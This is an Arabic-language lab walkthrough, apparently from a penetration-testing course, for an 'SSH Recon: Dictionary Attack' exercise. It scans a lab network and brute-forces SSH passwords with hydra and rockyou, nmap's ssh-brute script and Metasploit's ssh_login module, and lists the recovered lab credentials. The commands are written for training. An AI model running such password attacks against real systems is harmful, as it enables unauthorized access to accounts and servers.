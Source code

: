 --------------------------------------------------------------------------------------------

راح نبداء باللاب الثالث الي هو   
### SSH Recon: Dictionary Attack
--------------------------|

هذا طبعا نفس اللاب الي قبل لكن يحتاج نسوي بروت فورس عشان نحصل الباسورد

طبعا في هذا اللاب ماعطانا تارقت معين فراح نفحص كامل الشبكة 
[nmap -sV 192.43.243.0/24]
انتبه راح يتغير الايبي مو نفس الي هنا شيك على اللاب الي عندك عن طريق كتابة امر
[ifconfig]

طبعا اختصار للوقت نعرف ان التارقت حقنا في هذا اللاب
[target: 192.43.243.3]

طبعا اللاب عطانا اليوزر الي هو
student
لكن مطلوب مننا نحصل الباسورد فراح نستخدم التنين hydra
[hydra -l student -P /usr/share/wordlists/rockyou.txt 192.43.243.3 ssh]
لاتنسى تفك الضغط عن الليسته 
[gzip -d /usr/share/wordlists/rockyou.txt]

الان حصلنا الباسورد الي هو
username: student password:friend

الان كل الي علينا نشبك عليه وراح نقدر ندخل بدون مشاكل
طبعا الان فيه طريقة ثانيه الي هي باداة الـ nmap

طبعا موضوع الـ nmap قروشه
لانه مايقبل تعطيه اليوزر كنص عادي تكتبه لابد يكون داخل ملف ف بنسوي هذا الامر
[echo "administrator" > users]
الان صار عندنا ملف اسمه users 
فيه اليوزر administrator

الان راح نشغل السكربت على هذا اليوزر
[nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.43.243.3]
نلاحظ انه بدا الان وحصلنا الباسورد نحصله تحت طبعا
Accounts: 
    administrator:sunshine - Valid credentials

والان نقدر نتصل سواء باليوزر الاول او الثاني

طبعا اخر فكره انك تسوي بروت فورس عن طريق msfconsole
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/ssh/ssh_login]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
لابد نعطيه قيم لهذي المتغيرات RHOST , USERPASS_FILE 
طبعا عندنا هذا المتغير الي هو المفروض تكون قيمته اليوزر USERNAME
لكن حنا استخدمنا ووردليست فيها يوزر وباسورد ف مايحتاج نحط القيمه لانه بيسحبها من الووردليست
[set RHOSTS 192.40.231.3]هذا التارقت
[set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt] هذا الليسته حقت الباسوردات
[set STOP_ON_SUCCESS true] طبعا هذا يعني انه اذا نجحت وحصلت الباسورد وقف
[set verbose true] طبعا هذا عشان نشوف كل محاوله وحالتها هل نجحت او لا
[exploit] or [run] عشان نشغل الموديول ويبدا يجرب
